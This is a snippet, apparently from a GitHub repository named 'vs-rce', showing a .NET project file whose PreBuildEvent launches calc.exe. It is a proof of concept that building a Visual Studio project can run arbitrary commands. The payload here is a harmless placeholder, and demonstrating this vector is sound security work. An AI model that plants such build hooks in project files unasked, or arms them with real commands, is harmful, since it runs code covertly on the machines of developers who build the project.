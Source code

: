 // https://github.com/CsEnox/vs-rce/tree/main/rce
// rce.csproj
//
//
```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
    <PreBuildEvent>calc.exe</PreBuildEvent>
  </PropertyGroup>

</Project>
```

//
//
